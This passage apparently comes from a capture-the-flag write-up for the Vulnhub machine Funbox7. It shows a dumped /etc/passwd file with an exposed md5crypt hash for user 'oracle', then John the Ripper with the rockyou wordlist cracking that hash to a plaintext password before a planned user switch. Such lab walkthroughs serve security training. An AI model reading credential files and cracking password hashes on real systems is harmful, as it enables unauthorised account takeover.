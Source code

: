 ```bash
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
karla:x:1000:1000:karla:/home/karla:/bin/bash
mysql:x:111:113:MySQL Server,,,:/nonexistent:/bin/false
harry:x:1001:1001:,,,:/home/harry:/bin/bash
sally:x:1002:1002:,,,:/home/sally:/bin/bash
goat:x:1003:1003:,,,:/home/goat:/bin/bash
oracle:$1$|O@GOeN\$PGb9VNu29e9s6dMNJKH/R0:1004:1004:,,,:/home/oracle:/bin/bash
lissy:x:1005:1005::/home/lissy:/bin/sh

```

We got the same users as found in the secret directory on the webserver.
- harry
- sally
- goat
- oracle
- lissy

The user `oracle` does have a hash `$1$|O@GOeN\$PGb9VNu29e9s6dMNJKH/R0`, what we can try to crack with John The Ripper.

```bash
┌──(emvee㉿kali)-[~/Documents/Vulnhub/Funbox7]
└─$ nano hash

┌──(emvee㉿kali)-[~/Documents/Vulnhub/Funbox7]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hash    
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
hiphop           (?)     
1g 0:00:00:00 DONE (2024-03-31 20:14) 8.333g/s 3200p/s 3200c/s 3200C/s 123456..michael1
Use the "--show" option to display all of the cracked passwords reliably
Session completed.

```
We got a passwordfor the user oracle. We should se if we can switch user to oracle and look if we have more persmissions.
